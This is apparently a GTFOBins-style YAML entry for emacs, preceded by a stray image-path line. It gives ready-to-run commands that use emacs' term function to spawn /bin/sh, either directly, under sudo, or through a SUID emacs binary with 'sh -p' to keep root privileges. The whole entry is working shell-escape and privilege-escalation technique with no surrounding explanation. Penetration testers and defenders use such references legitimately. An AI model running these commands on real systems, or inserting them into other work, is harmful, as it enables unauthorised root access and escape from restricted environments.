 ```yaml
---
functions:
  exec-interactive:
    - code: emacs -Q -nw --eval '(term "/bin/sh")'
  sudo-enabled:
    - code: sudo emacs -Q -nw --eval '(term "/bin/sh")'
  suid-enabled:
    - code: ./emacs -Q -nw --eval '(term "/bin/sh -p")'
---
```

